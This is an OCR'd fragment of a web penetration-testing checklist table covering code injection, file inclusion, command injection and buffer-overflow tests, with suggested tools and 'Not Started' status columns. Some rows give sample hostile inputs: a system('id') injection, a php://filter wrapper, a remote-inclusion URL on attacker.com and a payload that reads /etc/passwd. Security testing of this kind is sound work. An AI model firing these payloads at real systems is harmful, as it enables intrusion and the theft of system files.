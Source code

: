 | **OTG\-INPVAL\-012**                            | Testing for Code Injection                                                 | Enter OS commands in the input field\. ?arg=1; system\('id'\)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      | Burp Proxy, ZAP, Liffy, Panoptic                              | Not Started |            |
| ****                                            | Testing for Local File Inclusion                                           | LFI with dot\-dot\-slash \(\.\./\.\./\), PHP Wrapper \(php://filter/convert\.base64\-encode/resource\)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             | Burp Proxy, fimap, Liffy                                      | Not Started |            |
| ****                                            | Testing for Remote File Inclusion                                          | RFI from malicious URL ?page\.php?file=http://attacker\.com/malicious\_page                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        | Burp Proxy, fimap, Liffy                                      | Not Started |            |
| **OTG\-INPVAL\-013**                            | Testing for Command Injection                                              | Understand the application platform, OS, folder structure, relative path and execute OS commands on a Web server\. %3Bcat%20/etc/passwd test\.pdf\+\|\+Dir C:\\                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    | Burp Proxy, ZAP, Commix                                       | Not Started |            |
| **OTG\-INPVAL\-014**                            | Testing for Buffer overflow                                                | • Testing for heap overflow vulnerability • Testing for stack overflow vulnerability • Testing for format string vulnerability                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     | Immunity Canvas, Spike, MSF, Nessus                           | Not Started |            |
| ****                                            | Testing for Heap overflow                                                  |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |                                                               | Not Started |            |